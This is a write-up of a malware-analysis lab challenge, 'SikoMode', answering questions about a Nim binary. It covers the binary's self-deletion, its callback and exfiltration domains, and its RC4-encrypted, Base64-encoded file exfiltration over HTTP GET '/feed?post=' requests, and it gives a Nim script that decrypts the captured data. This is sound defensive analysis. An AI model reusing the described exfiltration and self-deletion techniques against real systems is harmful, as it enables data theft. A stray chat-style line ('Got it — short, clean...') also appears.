


## 📌Overview

The SikoMode challenge involves analyzing a suspicious binary to understand its behavior. Using both static and dynamic analysis, the goal was to identify how the malware executes, communicates, and handles data.


**Let’s dive into the SikoMode challenge and break down what this malware is actually doing under the hood.**


## Challenge Statement

```text
Challenge 2: SikoMode
Analyst,

This specimen came from a poor decision and a link that should not have been clicked on. No surprises there. We need to figure out the extent of what this thing can do. It looks a little advanced.

Perform a full analysis and send us the report when done. We need to go in depth on this one to determine what it is doing, so break out your decompiler and debugger and get to work!

IR Team
```

**Objective:**
Perform static and dynamic analysis of the malware and extract key facts about its behavior. Use all available tools and techniques.

---

## Tools Used

**Basic Analysis:**

* File hashes
* VirusTotal
* FLOSS
* PEStudio
* PEView
* Wireshark
* iNetSim
* Netcat
* TCPView
* ProcMon

**Advanced Analysis:**

* Cutter
* Debugger (x64dbg)

---

## Preliminary Steps

* Calculated the **SHA256 hash**:

```
3ACA2A08CF296F1845D6171958EF0FFD1C8BDFC3E48BDD34A605CB1F7468213E
```

* Checked VirusTotal: flagged as malicious.



As expected, VirusTotal flagged the file as malicious. For this challenge, however, I ignored that information so I could analyze the sample from scratch, as if it were completely unknown.

* Next, I used FLOSS to extract strings from the binary. I looked for common patterns using grep, such as C:/, http://, .exe, .txt, .com, or .local. This helped me uncover several interesting strings.






---

## Challenge Questions

### 1) What language is the binary written in?

**Answer:**

* Loaded the binary in **Cutter**. The Dashboard shows it is written in **Nim**.
* Strings in the binary like `nimMain` and `nimGetProcAddr` also indicate Nim.



---

### 2) What is the architecture of this binary?

**Answer:**

* Checked using **PEStudio** and Cutter.
* The binary is **64-bit**.




---

### 3) Under what conditions can you get the binary to delete itself?

**Answer:**
The binary deletes itself in three cases:

1. **No Internet:** Cannot reach the callback domain `update.ec12-4-109-278-3-ubuntu20-04.local`. Sends a TCP request on port 80 first, then DNS request. If no response, calls `houdini` to delete itself.





2. **Interrupted Internet Connection:** Verified by stopping iNetSim during execution; Cutter confirms the conditional logic.



3. **After Normal Execution:** Automatically deletes itself once tasks are complete.



---

### 4) Does the binary persist? If so, how?

**Answer:**

* No persistence mechanism found.
* Binary deletes itself after completing its tasks as shown in the last picture.

---

### 5) What is the first callback domain?

**Answer:**

* First domain contacted:

```
update.ec12-4-109-278-3-ubuntu20-04.local
```



---

### 6) Under what conditions can you get the binary to exfiltrate data?

**Answer:**

* Needs to successfully reach the callback domain.
* Then it executes `unpackResources` and `stealStuff`.
* Reads `cosmo.jpeg`, encodes in Base64, encrypts using RC4, then sends it out.


---

### 7) What is the exfiltration domain?

**Answer:**

* Domain used for exfiltration:

```
cdn.altimiter.local
```



---

### 8) How does exfiltration take place?

**Answer:**

* Malware splits encrypted data into **125-character strings**.
* Sends these strings via HTTP GET requests: `/feed?post=ENCRYPTED_DATA`.

**Example Strings:**

```
A69C1CF68535758244B2337BAFFE38290DEBB01A07FF20919D758DDD480786BE49FDA8851998C6BC34020A6C57E504C48A9B8BD68959C6B7174302E29D84
B69C0CF68536758144B03372DDDD38291DEBB31925F523A386678EEC5414AF8966D1BCA316ADC6BC30020A6460D404C49A9B8FD6895AC5BF174376CCBBBC
```

* ProcMon shows use of `bcryptprimitives.dll` for encryption and `C:/Users/Public/passwrd.txt` stores the encryption key.


---

### 9) What URI is used to exfiltrate data?

**Answer:**

* URI used for exfiltration:

```
/feed?post=ENCRYPTED_DATA_TO_BE_EXFILTRATED
```


---

### 10) What type of data is exfiltrated?

**Answer:**

* The content of `cosmo.jpeg` (or target file) is Base64 encoded, encrypted with RC4, then sent via HTTP GET requests.

---

### 11) What kind of encryption algorithm is in use?

**Answer:**

* **RC4**.
* Encryption happens in the `stealStuff` method via `toRC4(key, plaintext)`.




---

### 12) What key is used to encrypt the data?

**Answer:**

* Key stored in `C:/Users/Public/passwrd.txt`:

```
SikoMode
```


* Can also be extracted by setting a breakpoint in x64dbg at the `toRC4()` function.



---

### 13) What is the significance of houdini?

**Answer:**

* `houdini` is a method that deletes the binary under multiple conditions: no Internet, interrupted connection, or after normal execution.



---

### BONUS – Retrieve File Content

**Answer:**

* Replaced original `cosmo.jpeg` with a small test file.
* Malware exfiltrated the content in a single request:

```
GET /feed?post=A19A35C7A70E76B366883052A0F22B043F99A066
```

* Nim script to decrypt and decode:

```nim
import RC4
import std/base64

var decryptedString: string = fromRC4("SikoMode", "A19A35C7A70E76B366883052A0F22B043F99A066")
echo "Decrypted: ", decryptedString

var decodedString: string = decode(decryptedString)
echo "Decoded: ", decodedString
```

* Successfully retrieved file content.




Got it — short, clean, and meaningful 👍


---

## 📌Conclusion

The malware exfiltrates data using RC4 encryption over HTTP and removes itself after execution. It includes basic anti-analysis checks and does not maintain persistence, making it a short-lived but stealthy threat.


